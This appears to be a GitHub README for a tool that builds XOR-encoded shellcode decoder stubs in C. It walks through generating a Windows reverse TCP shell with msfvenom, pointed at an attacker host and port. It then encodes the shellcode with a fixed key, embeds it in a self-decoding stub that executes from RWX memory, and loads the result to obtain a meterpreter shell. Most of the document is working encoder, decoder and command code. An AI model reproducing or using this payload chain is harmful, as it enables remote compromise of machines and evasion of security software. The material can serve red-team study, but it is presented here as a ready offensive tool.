

# easy-decoderstub
An easy way to create decoder stubs in C


I wanted to have a simple method to avoid having to write complicated encodings/decodings in assembler to write my own decoder stub. So I embed the encoded shellcode in the text segment of a C program that is PIC. After extracting the shellcode of the PIC, it can be executed in a loader. 

> Since the shellcode changes itself, the memory must be RWX.


# How to use

> I use a C-Encoder, you can use what you like most. 

* Create your shellcode.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.11 LPORT=443 -f c
```

* Copy shellcode into encoder-xor.c, compile and run it.

```c
#include <windows.h>
#include <stdio.h>


int main () 
{
    char key[] = "supersecret";
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
	...

    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    for (int i = 0; i < sizeof buf; i++)
    {
        printf("\\x%x", (unsigned char)buf[i]);
    }
}
```

```
x86_64-w64-mingw32-gcc encoder-xor.c -o encoder-xor.exe
```

```
.\encoder-xor.exe
\x8f\x3d\xf3\x81\x82\x9b\xa5\...
```

* Copy encoded shellcode in decoderstub.c, compile it. 

> Here you can code fancy stuff and have not to write it in assembly.

```c
#include "windows.h"

// Contains shellcode of loader
char buf[]  __attribute__((section(".text"))) = "\x8f\x3d\xf3\x81...";
char key[]  __attribute__((section(".text"))) = "supersecret";
void go() 
{
    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    (*(void(*)())(&buf))();
}
```

```
./compile.sh
```

* Compile and run the loader to get the meterpreter shell.

```
x86_64-w64-mingw32-gcc loader.c -o loeader.exe
```

```
.\loader.exe .\decoderstub.bin
```




